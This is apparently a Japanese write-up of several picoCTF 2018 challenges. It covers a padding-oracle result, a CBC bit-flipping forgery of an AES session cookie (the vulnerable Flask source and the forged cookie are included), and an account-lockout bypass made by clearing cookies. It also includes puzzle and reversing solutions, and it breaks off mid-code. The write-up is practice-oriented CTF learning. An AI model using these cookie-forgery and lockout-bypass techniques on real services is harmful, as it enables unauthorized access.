fb7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
fa7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f97b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f87b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f77b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f67b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f57b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f47b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f37b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f27b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f17b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
f07b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ef7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ee7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ed7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ec7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
eb7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ea7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e97b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e87b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e77b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e67b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e57b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e47b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e37b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e27b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e17b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
e07b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
df7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
de7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
dd7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
dc7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
db7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
da7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d97b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d87b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d77b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d67b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d57b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d47b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d37b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d27b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d17b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
d07b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
cf7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ce7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
cd7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
cc7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
cb7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ca7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c97b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c87b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c77b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c67b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c57b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c47b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c37b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c27b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c17b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
c07b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
bf7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
be7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
bd7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
bc7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
bb7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ba7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b97b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b87b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b77b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b67b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b57b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b47b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b37b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b27b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b17b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
b07b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
af7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ae7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ad7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ac7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
ab7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
aa7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a97b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a87b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a77b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a67b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a57b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a47b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a37b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a27b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a17b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
a07b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
9f7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
9e7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
9d7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
9c7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
9b7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
9a7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
997b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
987b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
977b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
967b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
957b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
947b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
937b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
```

</details>

これで暗号化も完了したので、これを投げる。
```
Welcome to Secure Encryption Service version 1.65

Here is a sample cookie: 5468697320697320616e204956343536bade59109764febea2c7750a4dae94dc9d494afe7d2f6f65fb1396791585bc03001275db3d5dc7666a39a5b1159e261a7bce4dd133a77c975cbba1ddb3751bc69f88ebbf9d2ca59cda28230eddb23e16
What is your cookie?
username: guest
Admin? true
Cookie is not expired
The flag is: picoCTF{0r4cl3s_c4n_l34k_86bb783e}
```
長かった。

# Secure Logon
Adminとしてログインすればフラグが貰える系のWebサイトが与えられる。当然ユーザー名をAdminにするとログインできない。ここはひとまずユーザー名とパスワードを空欄にしてログインする。

Base64形式でセッションがCookieに入るので取り敢えずHexにデコードしておく。
```
6/535xSVDFKLZ7FwLOBUwkskXj6GVjrk13ScJf6fBAXy7U07kkItwuF7zG9NVkB/lRXKRG2Ow4T+23UYvFVxXw==
```
```
eb fe 77 e7 14 95 0c 52 8b 67 b1 70 2c e0 54 c2 
4b 24 5e 3e 86 56 3a e4 d7 74 9c 25 fe 9f 04 05
f2 ed 4d 3b 92 42 2d c2 e1 7b cc 6f 4d 56 40 7f
95 15 ca 44 6d 8e c3 84 fe db 75 18 bc 55 71 5f
```
さて、これが何を暗号化した値なのかは、実はページに表示されている。



なるほど、ユーザー名とパスワードと管理者フラグが入ったjsonを暗号化しているらしい。但し、この表示は実は罠で、ソースコードを確認するとjsonのキーは辞書順でソートされている。ここにつまづいて少し時間を無駄にした。

<details><summary>python</summary>

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash
import json
from hashlib import md5
from base64 import b64decode
from base64 import b64encode
from Crypto import Random
from Crypto.Cipher import AES

app = Flask(__name__)
app.secret_key = 'seed removed'
flag_value = 'flag removed'

BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]


@app.route("/")
def main():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.form['user'] == 'admin':
        message = "I'm sorry the admin password is super secure. You're not getting in that way."
        category = 'danger'
        flash(message, category)
        return render_template('index.html')
    resp = make_response(redirect("/flag"))

    cookie = {}
    cookie['password'] = request.form['password']
    cookie['username'] = request.form['user']
    cookie['admin'] = 0
    print(cookie)
    cookie_data = json.dumps(cookie, sort_keys=True) #これが罠
    encrypted = AESCipher(app.secret_key).encrypt(cookie_data)
    print(encrypted)
    resp.set_cookie('cookie', encrypted)
    return resp

@app.route('/logout')
def logout():
    resp = make_response(redirect("/"))
    resp.set_cookie('cookie', '', expires=0)
    return resp

@app.route('/flag', methods=['GET'])
def flag():
  try:
      encrypted = request.cookies['cookie']
  except KeyError:
      flash("Error: Please log-in again.")
      return redirect(url_for('main'))
  data = AESCipher(app.secret_key).decrypt(encrypted)
  data = json.loads(data)

  try:
     check = data['admin']
  except KeyError:
     check = 0
  if check == 1:
      return render_template('flag.html', value=flag_value)
  flash("Success: You logged in! Not sure you'll be able to see the flag though.", "success")
  return render_template('not-flag.html', cookie=data)

class AESCipher:
    """
    Usage:
        c = AESCipher('password').encrypt('message')
        m = AESCipher('password').decrypt(c)
    Tested under Python 3 and PyCrypto 2.6.1.
    """

    def __init__(self, key):
        self.key = md5(key.encode('utf8')).hexdigest()

    def encrypt(self, raw):
        raw = pad(raw)
        iv = Random.new().read(AES.block_size)
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return b64encode(iv + cipher.encrypt(raw))

    def decrypt(self, enc):
        enc = b64decode(enc)
        iv = enc[:16]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return unpad(cipher.decrypt(enc[16:])).decode('utf8')

if __name__ == "__main__":
    app.run()
```

</details>

ソースからCBCモードで暗号化されていることがわかる。つまり、先ほどの暗号文は次のような構造になっていた。

```
eb fe 77 e7 14 95 0c 52 8b 67 b1 70 2c e0 54 c2 <- IV
4b 24 5e 3e 86 56 3a e4 d7 74 9c 25 fe 9f 04 05 <- {'admin': 0, 'pa
f2 ed 4d 3b 92 42 2d c2 e1 7b cc 6f 4d 56 40 7f <- ssword': '', 'us
95 15 ca 44 6d 8e c3 84 fe db 75 18 bc 55 71 5f <- ername': ''}
```

初期ベクトルのビットを反転すると、第一ブロックの平文の対応するビットも反転するので、IVを次のように変更する。

```
eb fe 77 e7 14 95 0c 52 8b 67 |b0| 70 2c e0 54 c2 <- IV
4b 24 5e 3e 86 56 3a e4 d7 74 |9c| 25 fe 9f 04 05 <- {'admin': 1, 'pa
f2 ed 4d 3b 92 42 2d c2 e1 7b |cc| 6f 4d 56 40 7f <- ssword': '?, 'us
95 15 ca 44 6d 8e c3 84 fe db |75| 18 bc 55 71 5f <- ername': '?}
```
これを再びbase64エンコードすると`6/535xSVDFKLZ7BwLOBUwkskXj6GVjrk13ScJf6fBAXy7U07kkItwuF7zG9NVkB/lRXKRG2Ow4T+23UYvFVxXw==`となるので、これをCookieにセットしてアクセスすればフラグが得られる。



`picoCTF{fl1p_4ll_th3_bit3_a41d2782}`

# script me
やったープログラミングするだけ問題だー！心の癒しだ〜〜〜〜！

はい。ということで、この問題はある法則に従って`()`のみからなる文字列同士の連結を行なった結果を出力せよという問題でした。法則は以下の通りです。

- 文字列の加法は左結合(左から順に計算する)
- ある文字列の項に対して、その深さをもっとも多い`()`のネストの数とする(例えば`(()(())())`なら3)
- 深さが同じ文字列同士の加法については、単純に文字列同士を連結したものとする。
- 深さが異なる文字列同士の加法については、深さが深い方の文字列の最も浅い括弧の内側に深さの浅い方の文字列を挿入したものとする。(例えば`() + (()) = (()())`)

これをプログラムにすると

<details><summary>java</summary>

```java
import java.io.PrintStream;
import java.net.Socket;
import java.util.Arrays;
import java.util.Scanner;
import java.util.function.ToIntFunction;
import java.util.stream.IntStream;

public class Main2 {

    public static void main(String[] args) throws Exception {
        Socket socket = new Socket("2018shell2.picoctf.com", 1542);
        PrintStream w = new PrintStream(socket.getOutputStream());

        Scanner sc = new Scanner(socket.getInputStream());
        IntStream.rangeClosed(0, 10).mapToObj(i -> sc.nextLine()).forEach(System.out::println);

        while (true) {
            IntStream.rangeClosed(0, 2).mapToObj(i -> sc.nextLine()).forEach(System.out::println);
            String init = sc.nextLine();
            init = init.substring(0, init.length() - 6);
            sc.nextLine();
            String[] s = Arrays.stream(init.split("\\+")).map(String::trim).toArray(String[]::new);
            ToIntFunction<String> depth = t -> {
                int a = 0;
                int c = 0;
                for (int i = 0; i < t.length(); i++) {
                    if (t.charAt(i) == '(') {
                        c++;
                        a = Math.max(a, c);
                    } else {
                        c--;
                    }
                }
                return a;
            };

            while (s.length > 1) {
                String next;
                if (depth.applyAsInt(s[0]) > depth.applyAsInt(s[1])) {
                    next = s[0].substring(0, s[0].length() - 1) + s[1] + ")";
                } else if (depth.applyAsInt(s[0]) < depth.applyAsInt(s[1])) {
                    next = "(" + s[0] + s[1].substring(1);
                } else {
                    next = s[0] + s[1];
                }
                String[] ns = new String[s.length - 1];
                System.arraycopy(s, 2, ns, 1, s.length - 2);
                ns[0] = next;
                s = ns;
            }
            w.println(s[0]);
            System.out.println(s[0]);
        }
    }
}
```

</details>

実行結果は次の通り。

<details><summary>log</summary>

```
Rules:
() + () = ()()                                      => [combine]
((())) + () = ((())())                              => [absorb-right]
() + ((())) = (()(()))                              => [absorb-left]
(())(()) + () = (())(()())                          => [combined-absorb-right]
() + (())(()) = (()())(())                          => [combined-absorb-left]
(())(()) + ((())) = ((())(())(()))                  => [absorb-combined-right]
((())) + (())(()) = ((())(())(()))                  => [absorb-combined-left]
() + (()) + ((())) = (()()) + ((())) = ((()())(())) => [left-associative]

Example: 
(()) + () = () + (()) = (()())

Let's start with a warmup.
(()()()()()())
> Correct!

Okay, now we're cookin!
()()()()()()
> Correct!

Alright see if you can get this one.
(()())(())(()())(()())(()()()()()()()())
> Correct!

This one's a little bigger!
(((()()()(())()()()()())()(())((()))(((())))((((())))))((()(())((()))(((())))()()))()()()()((())())((())())(()()())(()(()))(()(((()()())()())()())))
> Correct!

Ha. No more messin around. Final Round.
(((()(())())()(())((()))(((())))((((())))))((())(()()()()()()()())((((()))))(((())))((()))(())())((()()(()))(()()()(())()())((((()))))(((())))((()))(())())((()()()()()())()(())((()))(((())))((((()))))(()()()()))(()()())((()(())((()))(((())))()()))()(((((()))))(((())))((()))(())()))(()((()(())((()))(((())))()()))()(()(())((()))(((())))((((())))))(()(())()(()()())))(((()())()(())(()))((()(())((()))(((())))()()))()(((()())()()()(())()())()(((()()())()())()())))((()()()()()())((()(())((()))(((())))()()))()((()(())()()()())((((()))))(((())))((()))(())())(()()()()())(()()()()()()()())(((()()()()()()()())((()())()())())()(((()()())()())()())))(((()()()(())()())()(((()()())()())()()))((()(())((()))(((())))()()))()(((()()()())()()()(())()())((((()))))(((())))((()))(())())(()()()())(()()())((()(())())(()()()(())()())((()())()())())((()())()(()))((())()()()))((()()()((()())()())())((()(())((()))(((())))()()))()((()())(()()())()(())((()))(((())))((((())))))((()()()()()()()(())()())((((()))))(((())))((()))(())())((()()(())(()()()()()()()()))((()())()())())(((()()()()()()()())()()()(())()())((((()))))(((())))((()))(())())(()()()()()()()()()()())((()(())()())()(((()()())()())()()))((()())()(()))(((()()())()()()(())()())()(((()()())()())()()))(((()())()()()(())()())((()())()())())((()(())()(()()()))((((()))))(((())))((()))(())()))((()()()())((()(())((()))(((())))()()))()((())(()()())()(((()()())()())()()))((()()()()()()()()()()())()()()(())()())((()())()(())()()()(())))(((()()()()()()()()())()()()(())()())((()(())((()))(((())))()()))())((()()()()())((()(())((()))(((())))()()))()(((())()(()()()))((((()))))(((())))((()))(())())((()())(())()(()()()))((()()()()()()()())()(((()()())()())()()))(((((()())()())())()(((()()())()())()()))()(())((()))(((())))((((())))))((()())(()()()()()()()())()(())((()))(((())))((((()))))))(((()()()()()()()()())((()())()())())((()(())((()))(((())))()()))())((())(()()()()()()()())((()(())((()))(((())))()()))()(()())(()()())(()()()()()()()()))(()()()((()(())((()))(((())))()()))()(((((()))))(((())))((()))(())()))(((()())()(()))((()(())((()))(((())))()()))()(()(())((()))(((())))((((())))))((()()()()()()()())((((()))))(((())))((()))(())())((()()()())(()()()()()()()())((((()))))(((())))((()))(())()))(((()()()()(())()())()(((()()())()())()()))((()(())((()))(((())))()()))()((()())()(())((()))(((())))((((()))))))
> Correct!
Exception in thread "main" java.util.NoSuchElementException: No line found

	at java.base/java.util.Scanner.nextLine(Scanner.java:1651)
	at Main2.main(Main2.java:19)
Congratulations, here's your flag: picoCTF{5cr1pt1nG_l1k3_4_pRo_0466cdd7}
```

</details>

例外が出てもフラグが貰えればよかろうなのだ

# assembly-4
Reversingですが流石にこれは長すぎてJavaに翻訳する気も起きませんでした。ただ、google先生曰く`.nasm`ファイルはコンパイルできるとのことなので、コンパイルしてみると実行することができました。


`picoCTF{1_h0p3_y0u_c0mP1l3d_tH15_3205858729}`

# Help Me Reset 2
ユーザー名のリセットフォームが存在するページが与えられるので、取り敢えず誰のものでもいいからユーザー名が知りたい気持ちになります。SQLi等でごにょごにょするのかと最初は思ったのですが、(掲示板を見ると)ページのソースに何か書いてあるということなので、ページのソースを覗いてみましょう。

<details><summary>html</summary>

```html

<!doctype html>
<title></title>
<link rel="stylesheet" href="/static/css/style.css">
<link rel="stylesheet" href="/static/css/bootstrap.css">
<link rel="javascript" href="/static/js/bootstrap.js">
<link rel="javascript" href="/static/js/jquery.min.js">
<div class="d-flex flex-column flex-md-row align-items-center p-3 px-md-4 mb-3 bg-white border-bottom box-shadow">
  <h5 class="my-0 mr-md-auto font-weight-normal"><a href="/">Big Service Inc.</a></h1>
  <nav class="my-2 my-md-0 mr-md-3">  
    
      <a href="/login">Log In</a>
    
    </nav>
</div>
<section class="content">
  <div class="container">
  <header>
    
  </header>
  
  
<div class="pricing-header px-3 py-3 pt-md-5 pb-md-4 mx-auto text-center">
    <h1 class="display-4">Pricing</h1>
    <p class="lead">We provide big data for the Big Learning. Lean more about our options with the data plans below.</p>
</div>
<div class="container">
    <div class="card-deck mb-3 text-center">
        <div class="card mb-4 box-shadow">
        <div class="card-header">
            <h4 class="my-0 font-weight-normal">Free</h4>
        </div>
        <div class="card-body">
            <h1 class="card-title pricing-card-title">$0 <small class="text-muted">/ mo</small></h1>
            <ul class="list-unstyled mt-3 mb-4">
            <li>10 Big Data Bots included</li>
            <li>2 GB of data provided</li>
            <li>Email support</li>
            <li>Help center access</li>
            </ul>
            <button type="button" class="btn btn-lg btn-block btn-outline-primary">Sign up for free</button>
        </div>
        </div>
        <div class="card mb-4 box-shadow">
        <div class="card-header">
            <h4 class="my-0 font-weight-normal">Pro</h4>
        </div>
        <div class="card-body">
            <h1 class="card-title pricing-card-title">$15 <small class="text-muted">/ mo</small></h1>
            <ul class="list-unstyled mt-3 mb-4">
            <li>20 Big Data Bots included</li>
            <li>10 GB of data provided</li>
            <li>Priority email support</li>
            <li>Help center access</li>
            </ul>
            <button type="button" class="btn btn-lg btn-block btn-primary">Get started</button>
        </div>
        </div>
        <div class="card mb-4 box-shadow">
        <div class="card-header">
            <h4 class="my-0 font-weight-normal">Enterprise</h4>
        </div>
        <div class="card-body">
            <h1 class="card-title pricing-card-title">$29 <small class="text-muted">/ mo</small></h1>
            <ul class="list-unstyled mt-3 mb-4">
            <li>30 Big Data Bots included</li>
            <li>15 GB of data provided</li>
            <li>Phone and email support</li>
            <li>Help center access</li>
            </ul>
            <button type="button" class="btn btn-lg btn-block btn-primary">Contact us</button>
        </div>
        </div>
    </div>
</div>
<!--Proudly maintained by kant-->

  </div>
</section>
```

</details>

ということで、`<!--Proudly maintained by kant-->`に着目することで`kant`というユーザーが存在していることを把握することができます。パスワードリセットフォームにユーザー名を入れると、いくつかの質問が飛んでくるので、それっぽい答えを人力総当たりで入力していきます。ちなみに、3回間違えるとアカウントがロックされるという脅しがありますが、cookieを消せばいいだけの話でした。最終的に、`Favorite color`という質問に対して`pink`と3回答えることでパスワードのリセットに成功しました。運ゲーかな?


`picoCTF{i_thought_i_could_remember_those_e3063a8a}`

# special-pw
問題は以下のプログラムに与える適切な引数を考えるもの。

<details><summary>assembly</summary>

```
.intel_syntax noprefix
.bits 32
	
.global main	; int main(int argc, char **argv)

main:
	push   ebp
	mov    ebp,esp
	sub    esp,0x10
	mov    DWORD PTR [ebp-0xc],0x0
	mov    eax,DWORD PTR [ebp+0xc]
	mov    eax,DWORD PTR [eax+0x4]
	mov    DWORD PTR [ebp-0x4],eax
	jmp    part_b
part_a:
	add    DWORD PTR [ebp-0xc],0x1
	add    DWORD PTR [ebp-0x4],0x1
part_b:	
	mov    eax,DWORD PTR [ebp-0x4]
	movzx  eax,BYTE PTR [eax]
	test   al,al
	jne    part_a
	mov    DWORD PTR [ebp-0x8],0x0
	jmp    part_d
part_c:	
	mov    eax,DWORD PTR [ebp+0xc]
	add    eax,0x4
	mov    edx,DWORD PTR [eax]
	mov    eax,DWORD PTR [ebp-0x8]
	add    eax,edx
	mov    DWORD PTR [ebp-0x4],eax
	mov    eax,DWORD PTR [ebp-0x4]
	movzx  eax,BYTE PTR [eax]
	xor    eax,0x9d
	mov    edx,eax
	mov    eax,DWORD PTR [ebp-0x4]
	mov    BYTE PTR [eax],dl
	mov    eax,DWORD PTR [ebp-0x4]
	movzx  eax,WORD PTR [eax]
	ror    ax,0x5
	mov    edx,eax
	mov    eax,DWORD PTR [ebp-0x4]
	mov    WORD PTR [eax],dx
	mov    eax,DWORD PTR [ebp-0x4]
	mov    eax,DWORD PTR [eax]
	rol    eax,0xb
	mov    edx,eax
	mov    eax,DWORD PTR [ebp-0x4]
	mov    DWORD PTR [eax],edx
	add    DWORD PTR [ebp-0x8],0x1
part_d:	
	mov    eax,DWORD PTR [ebp-0xc]
	sub    eax,0x3
	cmp    eax,DWORD PTR [ebp-0x8]
	jg     part_c
	mov    eax,DWORD PTR [ebp+0xc]
	mov    eax,DWORD PTR [eax+0x4]
	mov    DWORD PTR [ebp-0x4],eax
	mov    DWORD PTR [ebp-0x10],0x14890ba
	jmp    part_f
part_e:	
	mov    eax,DWORD PTR [ebp-0x4]
	movzx  edx,BYTE PTR [eax]
	mov    eax,DWORD PTR [ebp-0x10]
	movzx  eax,BYTE PTR [eax]
	cmp    dl,al
	je     part_k
	mov    eax,0x0
	jmp    part_h
part_k:	
	add    DWORD PTR [ebp-0x4],0x1
	add    DWORD PTR [ebp-0x10],0x1
part_f:	
	mov    eax,DWORD PTR [ebp-0x10]
	movzx  eax,BYTE PTR [eax]
	test   al,al
	jne    part_e
	mov    eax,DWORD PTR [ebp+0xc]
	add    eax,0x4
	mov    eax,DWORD PTR [eax]
	mov    edx,DWORD PTR [ebp-0x10]
	mov    ecx,0x14890ba
	sub    edx,ecx
	add    eax,edx
	movzx  eax,BYTE PTR [eax]
	test   al,al
	je     part_g
	mov    eax,0x0			; LOGIN_FAILED
	jmp    part_h
part_g:	
	mov    eax,0x1			; LOGIN_SUCCESS
part_h:	
	leave
	ret


014890BA:  7b 18 a6 36 da 3b 2b a6  fe cb 82 ae 96 ff 9f 46   |{..6.;+........F|
014890CA:  8f 36 a7 af fe 93 8e 3f  46 a7 ff 82 cf ce b3 97   |.6.....?F.......|
014890DA:  17 1a a7 36 ef 2b 8a ed  00                        |...6.+...|
```

</details>

取り敢えずアセンブリをぶりぶり読んでいくと、入力に与えられた引数に対して*ある処理*を行い、その結果を問題のファイルに記載されている謎のデータと比較していることがわかります。つまり、謎のデータに対して*ある処理*を逆順で施せばフラグが得られるということですね。

肝心の*ある処理*が全くわからなかったのだけれど、eiya君がアセンブリをオブジェクトファイルに変換してくれたので、disasツールでバリバリ読み込んでいくことができるようになった。毎度のようにJavaに翻訳する作業が始まった訳で。頭のいい人はC言語とかに翻訳した方が100倍効率が良いことを知っているのだろうけど、0個のC言語を操るmikit君にはそれができませんでした。ということで、Javaで`boolean`配列を使って仮想敵にメモリを実装し、それに対してアセンブリに書いてあるコードを再現するという頭の悪いムーヴになっております。

<details><summary>java</summary>

```java
public class SpecialPW {
    private static byte[] INITIAL_MEMORY = {
            (byte) 0x7b, (byte) 0x18, (byte) 0xa6, (byte) 0x36, (byte) 0xda, (byte) 0x3b, (byte) 0x2b, (byte) 0xa6,
            (byte) 0xfe, (byte) 0xcb, (byte) 0x82, (byte) 0xae, (byte) 0x96, (byte) 0xff, (byte) 0x9f, (byte) 0x46,
            (byte) 0x8f, (byte) 0x36, (byte) 0xa7, (byte) 0xaf, (byte) 0xfe, (byte) 0x93, (byte) 0x8e, (byte) 0x3f,
            (byte) 0x46, (byte) 0xa7, (byte) 0xff, (byte) 0x82, (byte) 0xcf, (byte) 0xce, (byte) 0xb3, (byte) 0x97,
            (byte) 0x17, (byte) 0x1a, (byte) 0xa7, (byte) 0x36, (byte) 0xef, (byte) 0x2b, (byte) 0x8a, (byte) 0xed,
    };

    public static void main(String[] args) {
        VirtualMemory m = new VirtualMemory(INITIAL_MEMORY.length);
        for (int i = 0; i < INITIAL_MEMORY.length; i++) {
            m.setByte(i, INITIAL_MEMORY[i]);
            System.out.println(Integer.toHexString(m.getByte(i)));
        }

        for (int i = m.length() - 4; i >= 0; i--) {
            m.rotateRight(i, 32, 11);
            m.rotateLeft(i, 16, 5);
            m.setByte(i, (byte) (m.getByte(i) ^ 0x9d & 0xff));
        }
        for (int i = 0; i < m.length(); i++) {
            System.out.print((char) (m.getByte(i)));
        }
    }

    private static class VirtualMemory {
        final boolean[] memory;

        VirtualMemory(int size) {
            this.memory = new boolean[size * 8];
        }

        long getNumber(int index, int length) {
            long res = 0;
            for (int i = 0; i < length; i++) {
                if (memory[index * 8 + i]) {
                    res |= (1 << i);
                }
            }
            return res;
        }

        void setNumber(int index, int length, long value) {
            for (int i = 0; i < length; i++) {
                memory[index * 8 + i] = (value & 1) == 1;
                value = value >>> 1;
            }
        }

        byte getByte(int index) {
            return (byte) getNumber(index, 8);
        }

        void setByte(int index, byte value) {
            setNumber(index, 8, Byte.toUnsignedLong(value));
        }

        short getShort(int index) {
            return (short) getNumber(index, 16);
        }

        void setShort(int index, short value) {
            setNumber(index, 16, Short.toUnsignedLong(value));
        }

        int getInt(int index) {
            return (int) getNumber(index, 32);
        }

        void setInt(int index, int value) {
            setNumber(index, 32, Integer.toUnsignedLong(value));
        }

        void rotateLeft(int index, int length, int d) {
            boolean[] update = new boolean[length];
            for (int i = 0; i < length; i++) {
                update[(i + d) % length] = memory[index * 8 + i];
